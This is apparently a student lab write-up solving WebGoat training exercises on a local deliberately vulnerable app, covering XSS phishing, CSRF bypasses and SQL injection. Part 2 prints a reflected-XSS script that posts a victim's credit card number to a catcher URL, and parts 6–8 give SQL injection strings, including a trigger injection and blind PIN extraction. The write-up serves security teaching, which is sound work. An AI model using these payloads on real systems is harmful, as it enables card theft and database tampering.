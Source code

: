 #Zhenyi Tang, 1007177840, zhenyi.tang@mail.utoronto.ca
#Hongbo Zhu, 1006893792, hongbo.zhu@mail.utoronto.ca

part 1 Explanation:
Phishing with XSS
A form was used to collect user's information. When the user click the button, post the info to target URL.

part 2 Explanation:
Reflected XSS Attacks
The three digit access code input is exploitable.
Readable version of the URL
http://localhost:8090/WebGoat/start.mvc#attack/752417971/900?input1=000&input2=

<script>
    var btn = document.getElementsByName("buy")[0];
    btn.addEventListener('click', function () { steal(); }, false);
    function steal() {
        $.ajax({ type: "POST", url: "catcher?PROPERTY=yes&stolen-credit-card=" + document.getElementsByName("input1")[0].value, });
    }
    document.getElementsByName("input2")[0].value = "000";
    document.getElementById("message").style.display = "none";
</script>
Explanation: Add an event listener to the Purchase button. When the user click the button, post the credit card number to target URL. Using DOM operation to change the input2 value so that we can make the page with the injected script looks as close as the original page

part 3 Explanation:
Cross Site Request Forgery (CSRF)
The message is exploitable. We can put the url inside an image element.

Part 4 Explanation:
CSRF Prompt By-Pass
Using two iframe element to fetch the target url. The first frame uses to start the transfer and the second frame uses to confirm the transfer.

Part 5 Explanation:
CSRF Token By-Pass
The message is exploitable. We can use a frame to get the token first and then use another frame to start the transfer with the token.

Part 6 Explanation:
inject a SQL statement into the input field where we should give only a value. the SQL statement is smith' or 1=1 --, the 1=1 is always true so the database will return every row.

Part 7 Explanation:
At the first part, inject a SQL statement into the input field, use the update SQL statement to update the salary where the userid is 101 to 555000. 
At the second part, the injected SQL statement will create a trigger that will change the every new data's email to ece568-2020f@utoronto.ca.

Part 8 Explanation:
The program will determine whether the value we input is valid or not. But instead giving a single value. we can input a value plus a SQl statement. Since we know the value is valid, we can use it to determine if this SQL statement is true. The statement is "101 AND (select pin from credit where cc_number = 1234123412341234) = 3318". We can select the pin value where cc_number is 1234123412341234 and use > < and = to determine it's value.
